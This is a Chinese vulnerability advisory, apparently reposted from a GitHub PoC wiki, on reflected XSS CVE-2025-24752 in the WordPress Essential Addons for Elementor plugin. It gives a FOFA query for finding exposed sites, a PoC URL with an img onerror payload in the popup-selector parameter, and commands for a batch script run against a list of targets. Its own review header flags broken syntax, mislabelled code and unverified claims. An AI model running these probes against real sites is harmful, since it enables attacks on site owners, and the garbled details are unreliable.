

## 核对与使用边界

- 测绘字段处置：原 fofa 字段为残缺表达式、错误平台语法或当前解析器不支持的形式，原值完整保留到 fofa_unverified，不把它当作已校验查询或受影响资产证据。正文检索方法保留；具体问题见下列原审阅项。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;6.0.15 claimed; victim opens lost-password popup path; relevant widget/settings omitted

- **结论使用边界（1）**：载荷解码为img_src与x_onerror，下划线不是HTML空格；若插件做转换需源码说明，否则不是常规img onerror。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **事实待核（2）**：提及CVE-2025-24752.py但未提供脚本/链接，安装依赖无法补足。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **证据待核（3）**：frontmatter fofa=body残缺；代码语言undefined/cobol明显误标。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **事实待核（4）**：在野状态无源，修复缺具体版本说明，题末多右括号。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# WordPress essential-addons-for-elementor xss漏洞CVE-2025-24752）

# 漏洞描述

Elementor 插件的 Essential Addons 遭受反射型跨站点脚本 （XSS） 漏洞。该漏洞是由于 popup-selector 查询参数的验证和清理不充分而发生的，从而允许将恶意值反映回用户。

# 影响版本

essential-addons-for-elementor < 6.0.15

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/wp-content/plugins/essential-addons-for-elementor-lite"

POC/EXP：

https://your-ip/?popup-selector=%3Cimg_src%3Dx_onerror%3Dalert%28%22HelloWorld%22%29%3E&eael-lostpassword=1


脚本验证

使用前先安装 

```undefined
pip install selenium webdriver-manager
```

使用方法

```cobol
python CVE-2025-24752.py targets.txt 
```




# 漏洞修复

关注厂商官网动态，及时更新补丁信息。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
